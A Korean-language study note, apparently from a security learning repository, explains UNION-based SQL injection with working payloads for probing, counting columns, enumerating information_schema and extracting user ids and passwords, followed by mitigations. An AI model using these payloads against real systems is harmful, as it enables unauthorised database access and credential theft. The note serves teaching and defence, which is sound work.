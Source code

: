 
## 유니온 기반 SQL 인젝션 (UNION-based SQL Injection)

`UNION-based SQL Injection`은 **SQL의 `UNION` 연산자를 악용하여 원래 쿼리 결과 뒤에 공격자가 만든 쿼리 결과를 덧붙이는 방식**의 공격이다. 결과가 HTTP 응답에 출력될 때, 공격자가 원하는 데이터베이스 내부 정보를 직접 확인할 수 있어 강력한 정보 수집 도구로 쓰인다.

---

## 특징

- SQL의 `UNION` 또는 `UNION ALL` 연산자 사용
- 쿼리 결과가 직접 HTML/응답에 노출되어야 유효
- **에러 기반보다 더 많은 데이터**를 한 번에 추출 가능
- 응답 차이가 명확해 **Blind 방식보다 빠름**

---

## 공격 조건

`UNION` 연산자는 다음 조건이 만족되어야 정상 작동한다:

1. **컬럼 수 일치**: 원래 쿼리와 공격자가 삽입한 쿼리의 SELECT 컬럼 수가 같아야 함  
2. **컬럼 타입 호환**: 각 컬럼의 데이터 타입이 원래 쿼리와 일치하거나 호환되어야 함

---

## 공격 절차

1. **취약점 존재 여부 확인**
   ```sql
   ' OR 1=1 --
   ' AND 1=2 --
   ```
   - 응답 차이가 있을 경우 인젝션 가능성 있음

2. **컬럼 개수 파악**
   ```sql
   ' ORDER BY 1 --
   ' ORDER BY 2 --
   ...
   ' ORDER BY N --
   ```
   - 오류 발생 직전 숫자가 컬럼 수  
   또는
   ```sql
   ' UNION SELECT NULL --
   ' UNION SELECT NULL, NULL --
   ...
   ```

3. **출력 컬럼 탐색**
   ```sql
   ' UNION SELECT 1,2,3 --
   ```
   - 숫자 대신 `'A'`, `'B'` 등을 넣어 문자열 출력 가능 컬럼 확인

4. **데이터베이스 구조 및 정보 추출**
   ```sql
   ' UNION SELECT database(), user(), version() --
   ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database() --
   ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' --
   ' UNION SELECT id, password FROM users --
   ```

---

## DBMS 별 주요 기법

| DBMS       | 대표 함수 / 기법 예시 |
|------------|------------------------|
| **MySQL**  | `UNION SELECT`, `information_schema`, `group_concat()` 등 |
| **MSSQL**  | `UNION SELECT`, `sysobjects`, `syscolumns` 등 |
| **Oracle** | `UNION SELECT`, `all_tables`, `all_tab_columns`, `dual` 테이블 |
| **PostgreSQL** | `UNION SELECT`, `pg_catalog.pg_tables`, `pg_user`, `version()` 등 |

---

## MySQL 예시

### 1. 컬럼 수 파악
```sql
' ORDER BY 3 --
```

### 2. 출력 위치 확인
```sql
' UNION SELECT 1,2,3 --
```

### 3. DB 및 사용자 정보
```sql
' UNION SELECT database(), user(), version() --
```

### 4. 테이블 및 컬럼 탐색
```sql
' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database() --
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' --
```

### 5. 실제 데이터 추출
```sql
' UNION SELECT id, password FROM users --
```

---

## 페이로드 예시

| 목적 | 페이로드 예시 |
|------|----------------|
| DB 이름, 사용자 추출 | `' UNION SELECT database(), user(), version() --` |
| 테이블 목록 확인 | `' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database() --` |
| 컬럼 목록 확인 | `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' --` |
| 사용자 데이터 추출 | `' UNION SELECT id, password FROM users --` |

---

## 대응 방안

- **입력값 필터링**: `'`, `--`, `union`, `select`, `information_schema` 등 SQL 관련 키워드 필터링  
- **Prepared Statement 사용**: SQL 명령어와 데이터를 명확히 분리
- **출력 제한**: 사용자 입력이 포함된 SQL 결과를 직접 출력하지 않도록 설계
- **WAF 도입**: SQL Injection 시도 탐지 및 차단
- **정기적 점검**: 자동화 도구를 통한 정기 스캔 및 코드 리뷰

---

## 정리

> UNION 기반 SQL Injection은 **쿼리 결과에 공격자의 쿼리 결과를 합쳐 출력하는 방식**으로, 시스템이 응답에 SQL 결과를 포함하는 구조일 때 강력한 정보 추출 수단이다.

> 빠른 정보 노출이 가능하지만, 쿼리 구조를 정확히 파악하고 컬럼 수와 타입을 맞춰야 성공 가능성이 높아진다.

> 대응을 위해선 **출력 제한**, **쿼리 구조 보호**, **정형 입력만 허용하는 설계**가 필수적이다.

## 참고 사이트
[NetSPI](https://sqlwiki.netspi.com/injectionTypes/unionBased/#mysql "UNION 기반 SQL 인젝션")

[Oracle](https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet "Oracle SQL Injection Cheat Sheet")


<hr />